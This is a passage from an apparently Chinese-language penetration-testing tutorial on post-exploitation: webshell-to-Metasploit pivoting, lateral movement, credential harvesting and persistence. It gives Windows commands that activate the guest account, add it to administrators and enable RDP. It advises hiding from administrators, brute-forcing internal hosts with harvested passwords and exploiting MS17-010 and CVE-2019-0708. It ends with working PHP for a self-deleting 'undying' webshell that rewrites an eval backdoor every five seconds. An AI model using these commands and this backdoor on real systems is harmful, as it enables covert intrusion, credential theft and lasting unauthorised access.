 **漏洞验证方式**

- 自动化验证：结合自动化扫描工具提供的结果
- 手工验证，根据公开资源进行验证
- 试验验证：自己搭建模拟环境进行验证
- 登陆猜解：有时可以尝试猜解一下登陆口的账号密码等信息
- 业务漏洞验证：如发现业务漏洞，要进行验证

### 内网转发

当我们获取到了网站的Webshell之后，如果我们想获取该主机的有关信息，我们可以将该主机的webshell换成MSF的shell。直接生成一个木马，然后在菜刀中执行该木马，我们就能接收到一个MSF类型的shell了。

如果我们还想进一步的探测内网主机的信息的话，我们就需要进行内网转发了。我们是不能直接和内网的主机通信的，所以我们就需要借助获取到的webshell网站的服务器和内网主机进行通信。

### 内网横向渗透

当我们在获取了外网服务器的权限，进入该系统后，我们要想尽办法从该服务器上查找到我们想要的信息。

对于windows主机，我们应该多去翻翻目录，或许能有很多意想不到的结果。很多人习惯把账号密码等容易忘的东西存放在备忘录中，或者是桌面上。我们还可以查找数据库的连接文件，查看数据库的连接账号密码等敏感信息。当我们获得了windows主机的账号密码，或者是自己创建了新用户后，我们为了不被网站管理员发现和不破坏服务器。我们尽量不要使用远程桌面。因为使用远程桌面动静比较大，如果此时服务器管理员也在登录，而你此时通过远程桌面登录的话，会将管理员挤掉，而你也将很快的被管理员踢掉。对于实在是要远程桌面登录的情况的话，我们尽量不要新建一个用户进行登录。我们可以激活 guest 用户，然后将其加入 administrators 组里面，用 guest 用户身份登录。在RDP远程登录后，我们可以查看其他用户桌面上和其他目录有哪些软件，我们要找的目标有以下。

- FTP相关的软件
- 数据库相关的软件
- 打开浏览器，查看历史记录，查看某些网站是否保存有用户密码。利用工具查看浏览器保存的密码

从该主机上找到的账号密码，我们可以做一个字典，在对内网其他机器进行爆破的时候，很有可能是同密码。

```bash
net user  guest  /active:yes                      #激活guest用户
net localgroup  administrators  guest  /add       #将guest用户添加到
net user guest    密码                            #更改guest用户密码
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f                          #开启3389端口
```

对于Linux主机，我们可以查看开放的端口号，开放的服务，与其建立连接的内网主机。查看目录，查找网站数据库连接密码。总之，就是尽可能的多查找一些账号密码，这对于内网的账号爆破非常有用。

在搭建了隧道可以通内网后，我们首先就需要对内网进行资产发现了。但是对于内网存活网段的判断是一个大问题。内网很有可能同时存在 10.0.0.0/8、172.16.0.0/16、192.168.0.0/24 网段。这就需要我们用扫描器对其进行探测了。通过代理进行内网扫描不建议使用nmap。如果是在本地主机通过代理扫描，可以图形化界面的话，可以使用 RouterScan 、御剑高速TCP全端口扫描器、IIS_Scanner。但是注意线程调低一点，不然代理很容易崩了。如果使用命令行扫描器的话，可以使用S扫描器。在扫描了内网资产和端口开放情况后，对于445端口，就可以打一波MS17_010。但是注意通过代理打445，和之前的是不一样的。传送门——> 内网渗透之MS17-010 。对于3389端口，可以打一波CVE-2019-0708，传送门——> CVE-2019-0708 远程桌面漏洞复现 。对于1433/3306/6379等端口，可以尝试爆破，利用之前收集到的账号密码成功率更高哦。

### 权限维持

在拿到目标主机的权限后，很有可能当时我们并不能获取到想要的东西，需要进行长期的潜伏，特别是在内网渗透中，需要进行长期的信息收集。这时，权限维持就很重要了。我们需要维持住获得的现有权限。

#### Web后门

1：隐藏后门文件(将文件设置为隐藏)

2：不死马，该脚本每5秒向服务器创建test.php，并写入一句话免杀木马。结合attrib命令隐藏文件更好地建立后门。

```php
<?php
    set_time_limit(0);//程序执行时间
    ignore_user_abort(1);//关掉终端后脚本仍然运行
    unlink(__FILE__);//文件完整名
    while(1){
        file_put_contents('test.php','<?php $a=array($_REQUEST["x"]=>"3");
        $b=array_keys($a)[0];
        eval($b);?>');
        sleep(5);
    }
?>
```
